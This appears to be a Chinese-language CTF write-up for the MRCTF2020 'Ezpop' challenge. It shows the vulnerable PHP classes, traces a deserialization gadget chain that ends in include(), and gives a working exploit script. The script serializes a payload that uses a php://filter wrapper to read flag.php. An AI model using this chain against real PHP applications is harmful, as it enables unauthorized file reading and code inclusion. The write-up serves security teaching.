 # [MRCTF2020]Ezpop

## 知识点

`php反序列化`

`preg_replace调用__toString`

## 解题

```php
<?php

class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

魔术方法`__invoke`被自动调用的条件是类被当成一个函数被调用，故接着来寻找和函数调用有关的代码。`Test`类中的`__get()`方法可以调用

```php
public function __get($key){
    $function = $this->p;
    return $function();
}
```

`__get`方法又需要访问类中不存在的变量时调用，那就需要寻找和调用属性相关的代码。`Show`类中的`__toString()`方法可以调用

```php
class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
```

魔术方法`__toString`在类被当做一个字符串处理时会被自动调用，在魔术方法`__wakeup`则将属性`source`传入正则匹配函数`preg_match()`，在这个函数中`source`属性就被当做字符串处理。最终这个魔术方法_`_wakeup`又在类被反序列化时自动调用

`反序列化`->`调用Show类中魔术方法__wakeup`->`preg_match()函数对Show类的属性source处理-`>`调用Show类中魔术方法__toString`->`返回Show类的属性str中的属性source(此时这里属性source并不存在)`->`调用Test类中魔术方法__get`->`返回Test类的属性p的函数调用结果`->`调用Modifier类中魔术方法__invoke`->`include()函数包含目标文件(flag.php)`

`exp`

```php
<?php

class Modifier {
    protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
}

class Show{
    public $source;
    public $str;
}

class Test{
    public $p;
}

$a = new Show();
$b = new Show();
$b->str = new Test();
$b->str->p = new Modifier();
$a->source = $b;

echo serialize($a);
echo urlencode(serialize($a));
```

